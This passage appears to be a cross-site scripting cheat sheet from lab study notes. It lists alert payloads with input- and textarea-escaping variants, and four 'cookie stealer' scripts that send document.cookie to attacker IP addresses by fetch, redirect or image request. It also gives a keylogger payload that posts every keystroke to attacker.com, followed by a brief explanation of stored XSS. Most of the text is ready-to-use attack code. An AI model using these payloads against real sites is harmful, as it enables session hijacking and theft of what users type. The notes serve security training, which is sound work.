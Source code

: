 **Example Payloads**

```javascript
<script>alert("Hello")</script>

<script>alert(window.location.hostname)</script>

"><script>alert('XSS');</script>
[suitable for escaping input tags]

</textarea><script>alert('THM');</script> 
[suitable for escaping text areas]

';alert('THM');//
```

**Cookie Stealer** \[1]

```javascript
<script>fetch('http://10.8.133.250:8000/steal?cookie=' + btoa(document.cookie));</script>
```

\[2]

```javascript
<script>window.location='http://10.8.133.250:8000/cookie='+document.cookie</script>
```

\[3]

```javascript
<script>var myimg = new Image(); myimg.src = 'http://10.10.14.2:8000/q?=' + document.cookie;</script>
```

\[4]

```javascript
<script>document.location='http://ip:8000/XSS/grabber.php?c='+document.cookie</script>
```

\#keylogger payload that records every keystrok on a certain page

```javascript
<script>document.onkeypress = function(e) { fetch('https://attacker.com/log?key=' + btoa(e.key) );}</script>
```

#### Stored

It goes by the same logic of the reflected XSS except that the malicious Java script code is directly stored in the web application database and is executed when the user/admin/attacker visits the page where the attacker injected the code. The result is the attacker will grab the session cookie or even establish reverse shell connection. This often happens when a website allows user input that is not sanitized (remove the "bad parts" of a users input) when inserted into the database. A **attacker** creates a payload in a field when signing up to a website that is stored in the websites database. If the website doesn't properly sanitize that field, when the site displays that field on the page, it will execute the payload to everyone who visits it. **Entry Points**
